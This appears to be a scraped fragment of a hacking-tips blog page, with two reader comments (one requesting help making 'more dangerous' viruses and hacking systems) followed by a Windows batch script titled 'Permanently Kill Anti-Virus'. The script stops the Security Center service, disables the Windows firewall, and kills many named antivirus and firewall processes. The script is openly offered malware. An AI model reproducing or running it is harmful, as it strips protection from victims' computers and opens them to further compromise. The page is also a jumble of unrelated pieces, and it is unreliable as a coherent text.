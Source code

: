 Reply
Resforce 3rd April 2021 At 6:47 am
Do you learn me how can we create more dangerous virus and how can hack systems please

Reply
ali 6th May 2021 At 2:40 pm
how to convert batch to .exe

Reply
LEAVE A REPLY
Comment:
Name:*
Email:*
Website:
Save my name, email, and website in this browser for the next time I comment.

Sign me up for the newsletter!

 Notify me of follow-up comments by email.

 Notify me of new posts by email.

This site uses Akismet to reduce spam. Learn how your comment data is processed.

ADVERTISEMENT

 
JOIN US NOW
Be the first to get Latest Tech, Guides, Tricks & Hacks.

eg: william@usmail.com
I consent to my submitted data being collected via this form*
"We spam alot, but not your Inbox"


 
Related Posts

 
@ echo off
rem
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall set opmode mode=disable
tskill /A av*
tskill /A fire*
tskill /A anti*
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw
tskill /A KAV*
tskill /A ZONEALARM
tskill /A SAFEWEB
cls
tskill /A spy*
tskill /A bullguard
tskill /A PersFw
tskill /A KAV*
tskill /A ZONEALARM
tskill /A SAFEWEB
cls
tskill /A OUTPOST
tskill /A nv*
tskill /A nav*
tskill /A F-*
tskill /A ESAFE
tskill /A cle
cls
tskill /A BLACKICE